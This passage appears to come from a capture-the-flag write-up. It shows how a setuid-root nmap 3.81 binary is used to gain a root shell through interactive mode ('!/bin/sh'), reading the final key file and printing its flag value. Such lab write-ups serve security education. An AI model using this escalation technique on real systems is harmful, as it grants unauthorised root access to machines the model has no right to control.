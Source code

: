 Interestingly, apparently older versions of `nmap` can be used to drop into a shell. Since the `nmap` binary could be run as `root` by my current user, I was able to drop into a shell as `root`. This gave me full access to the machine:

```bash
robot@linux:/tmp$ ls -al /usr/local/bin/nmap
ls -al /usr/local/bin/nmap
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
robot@linux:/tmp$ /usr/local/bin/nmap -V
/usr/local/bin/nmap -V

nmap version 3.81 ( http://www.insecure.org/nmap/ )
robot@linux:/tmp$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> h
Nmap Interactive Commands:
n <nmap args> -- executes an nmap scan using the arguments given and
waits for nmap to finish.  Results are printed to the
screen (of course you can still use file output commands).
! <command>   -- runs shell command given in the foreground
x             -- Exit Nmap
f [--spoof <fakeargs>] [--nmap_path <path>] <nmap args>
-- Executes nmap in the background (results are NOT
printed to the screen).  You should generally specify a
file for results (with -oX, -oG, or -oN).  If you specify
fakeargs with --spoof, Nmap will try to make those
appear in ps listings.  If you wish to execute a special
version of Nmap, specify --nmap_path.
n -h          -- Obtain help with Nmap syntax
h             -- Prints this help screen.
Examples:
n -sS -O -v example.com/24
f --spoof "/usr/local/bin/pico -z hello.c" -sS -oN e.log example.com/24

nmap> !/bin/bash
whoami
robot

ls
linuxprivchecker.py
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! /bin/bash
whoami
robot
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! /bin/sh
whoami
root
ls /root
firstboot_done
key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
